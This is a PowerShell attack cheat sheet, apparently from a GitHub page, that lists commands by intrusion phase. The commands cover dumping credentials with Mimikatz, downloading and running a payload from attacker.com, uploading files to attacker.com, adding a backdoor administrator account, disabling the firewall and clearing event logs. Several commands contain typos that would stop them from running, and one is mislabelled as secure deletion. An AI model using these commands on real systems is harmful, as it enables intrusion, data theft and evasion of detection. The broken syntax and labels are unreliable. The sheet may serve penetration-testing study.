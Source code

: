 # Windows Powershell

### System Reconnaissance

 - Get-WmiObject -Class Win32_OperatingSystem (Enumerate System Information)

 - Get-Service | Where-Object {$_.Status -eq "Running"} (Check for running services)

 - Get-NetIPConfiguration (Get current network configuration)

### User and Group Enumeration

 - Get-LocalUser (List local users)

 - quser (List user sessions)

 - Get-LocalGroup (List local groups)

 - Get-LocalGroupMember -Group "Administrators" (List group members)

### Network Scanning

 - Test-Connection IP -Count 1 -Quiet (Discover live systems)

 - 1..1024 | % {echo ((new-objectNet.Sockets.TcpClient).Connect("192.168.1.1", $_)) "Port$_ is open"} (Scan for open ports)

### Exploitation

 - IEX (New-ObjectNet.WebClient).DownloadString('http://attacker.com/payload.ps1') (Download and execute a payload)

### File and Directory Manipulation

 - Get-ChildItem -Recurse | Select-String -Pattern"password" (Search for files with sensitive data)

 - (Get-Item "secret.txt").Delete() (Securely delete a file)

### Credential Harvesting

 - Import-Module Mimikatz.ps1

 - Invoke-Mimikatz -DumpCreds (Dump credentials from memory)

### Privilege Escalation

 - ([Security.Principal.WindowsPrincipal][Security.Principal.WindowsIdentity]::GetCurrent()).IsInRole([Security.Principal.WindowsBuiltInRole]"Administrator") (Check for admin privileges)

### Lateral Movement

 - Invoke-Command -ComputerName TARGET_IP ScriptBlock {COMMAND} -credential (Get-Credential)

### Post Exploitation

 - net user /add USERNAME PASSWORD (Add a backdoor user)

 - Net Localgroup Administrators USERNAME /add (Add your backdoor user to local administrators group)

### Defensive Evasion

 - Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False (Disable Firewall)

### Data Exfiltration

 - (New-Object System.Net.WebClient).UploadFile("http://attacker.com/upload", "C:\path\to\data.txt") (Send data to attacking machine)

### Log Management

 - wevtutil cl System (Clear event logs)

